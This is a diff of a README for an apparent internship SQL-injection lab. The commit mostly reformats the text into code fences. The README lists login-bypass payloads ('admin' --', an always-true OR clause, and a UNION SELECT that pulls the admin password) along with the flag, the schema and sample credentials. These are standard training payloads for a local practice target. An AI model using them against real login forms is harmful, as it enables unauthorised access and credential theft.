

Before and after one commit to KerberoSec/Razz_Security_Internship_Assignment, a Markdown page: README.md, the part around the change printed below. Shown: that part at 84% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -139,96 +100,67 @@ http://localhost:5000
 Use payload:
 
 Username:
+```admin' --```
+Password:
+```anything```
+Resulting query:
+```SELECT * FROM users WHERE username = 'admin' --' AND password = 'anything'```
 
-vbnet
-Copy
-Edit
-admin' --
-Password:
-
-nginx
-Copy
-Edit
-anything
-Resulting query:
-
-sql
-Copy
-Edit
-SELECT * FROM users WHERE username = 'admin' --' AND password = 'anything'
 4.4 Retrieve Flag
 After login as admin, the flag will be displayed:
-
-Copy
-Edit
-RAZZ{sql1_bYP4sS_MAst3r}
+```RAZZ{sql1_bYP4sS_MAst3r}```
 4.5 Alternative Payloads
 Method 1: Always True
-
-pgsql
-Copy
-Edit
 Username: admin' OR '1'='1
 Password: anything
 Method 2: Union Injection
-
-vbnet
-Copy
-Edit
 Username: admin' UNION SELECT 1,password,3 FROM users WHERE username='admin' --
 Password: anything
 Step 5: Database Schema & Data
 5.1 Schema
-sql
-Copy
-Edit
-CREATE TABLE users (
+```CREATE TABLE users (
     id INTEGER PRIMARY KEY AUTOINCREMENT,
     username TEXT UNIQUE NOT NULL,
     password TEXT NOT NULL,
     is_admin INTEGER DEFAULT 0
 );
+```
 5.2 Sample Data
-id	username	password	is_admin
+```id	username	password	is_admin
 1	admin	RAZZ{sql1_bYP4sS_MAst3r}	1
 2	john_doe	password123	0
 3	jane_smith	securepass	0
-
+```
 Step 6: Management Commands
 6.1 Docker
-bash
-Copy
-Edit
 # List containers
-sudo docker ps
+```sudo docker ps```
 
 # Stop container
-sudo docker stop sqli-challenge
+```sudo docker stop sqli-challenge```
 
 # Start container
-sudo docker start sqli-challenge
+```sudo docker start sqli-challenge```
 
 # Remove container
-sudo docker rm sqli-challenge
+```sudo docker rm sqli-challenge```
 
 # Remove image
-sudo docker rmi sqli-challenge
+```sudo docker rmi sqli-challenge```
 
 # View logs
-sudo docker logs sqli-challenge
+```sudo docker logs sqli-challenge```
+
 6.2 Python Virtual Env
-bash
-Copy
-Edit
 # Deactivate
-deactivate
+```deactivate```
 
 # Reactivate
-source venv/bin/activate   # macOS/Linux
+```source venv/bin/activate   # macOS/Linux
 venv\Scripts\activate      # Windows
-
+```
 # Reinstall dependencies
-pip install --force-reinstall -r requirements.txt
+```pip install --force-reinstall -r requirements.txt```
 Step 7: Troubleshooting
 Port already in use: Use another port or stop conflicting service.
 
````
Also changed, not shown: other parts of README.md (+22 -63 lines).
